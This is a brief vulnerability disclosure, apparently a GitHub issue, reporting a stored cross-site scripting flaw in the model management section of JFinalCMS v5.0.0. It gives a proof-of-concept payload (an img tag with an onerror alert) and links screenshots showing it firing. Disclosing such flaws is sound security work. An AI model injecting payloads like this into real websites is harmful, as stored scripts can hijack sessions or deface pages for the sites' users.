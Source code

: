 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a stored XSS in the model management department

![图片](https://github.com/Rabb1ter/cms/assets/40162457/ee8e4832-9d4e-478b-aa9f-02b98fda2fbe)

poc: `<img src=1 onerror=alert(1)>`

![图片](https://github.com/Rabb1ter/cms/assets/40162457/82bd43fb-0e75-409c-b196-8d3935f6aa9c)

successed

![图片](https://github.com/Rabb1ter/cms/assets/40162457/411e0a01-08c1-405d-a092-b6e8d7ee4d29)

